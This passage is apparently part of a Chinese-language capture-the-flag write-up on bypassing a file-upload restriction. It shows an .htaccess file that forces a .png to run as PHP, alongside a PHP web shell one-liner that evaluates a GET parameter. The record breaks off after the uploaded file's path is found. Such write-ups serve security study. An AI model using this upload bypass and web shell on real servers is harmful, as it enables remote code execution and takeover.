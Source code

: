 3.然后看看响应包，直接302了。说明注入和常规文件上传思路都没戏的！

[![](https://p3.ssl.qhimg.com/t01d0cd92b050e92293.png)](https://p3.ssl.qhimg.com/t01d0cd92b050e92293.png)

4.然后从源码出发，看了看源码发现不能注入，也不能绕过上传。

[![](https://p2.ssl.qhimg.com/t01a9639423ab3a56b5.png)](https://p2.ssl.qhimg.com/t01a9639423ab3a56b5.png)

5.然后看到了这个php规则。经过百度之后发现先知一位大佬写了：[https://xz.aliyun.com/t/8267](https://xz.aliyun.com/t/8267)

&lt;Directory ~ “/var/www/html/upload/[a-f0-9]`{`32`}`/”&gt; php_flag engine off&lt;/Directory&gt;

[![](https://p3.ssl.qhimg.com/t0172f4f49c7a375446.png)](https://p3.ssl.qhimg.com/t0172f4f49c7a375446.png)



## 三、解题思路（1）

1.开始构造文件上传文件

[![](https://p3.ssl.qhimg.com/t0132cb60f34bf5b6d9.png)](https://p3.ssl.qhimg.com/t0132cb60f34bf5b6d9.png)

2.新建.htaccess文件

第一个文件叫.htaccess<br>
内容是:

&lt;FilesMatch “1.png”&gt;<br>
SetHandler application/x-httpd-php<br>
php_flag engine on<br>
&lt;/FilesMatch&gt;

3.新建1.png，进行文件上传

第二个文件名叫1.png<br>
&lt;?php eval($_GET[‘cmd’]);?&gt;

[![](https://p1.ssl.qhimg.com/t01ba2a980b5d7d3e8e.png)](https://p1.ssl.qhimg.com/t01ba2a980b5d7d3e8e.png)

4.先上传.htaccess文件，然后再上传.png文件，上传的png文件就会被解析了。

[![](https://p0.ssl.qhimg.com/t01fa46527c5cf9f3d8.png)](https://p0.ssl.qhimg.com/t01fa46527c5cf9f3d8.png)

5.上传.htaccess文件

[![](https://p5.ssl.qhimg.com/t01c8576529b2191e68.png)](https://p5.ssl.qhimg.com/t01c8576529b2191e68.png)

6.上传png文件

[![](https://p3.ssl.qhimg.com/t0175f6a49716187c92.png)](https://p3.ssl.qhimg.com/t0175f6a49716187c92.png)

7.然后找到上传图片的路径<br>
&lt;img src=”upload/e8be345643e019844763188240c38377/1.png”&gt;
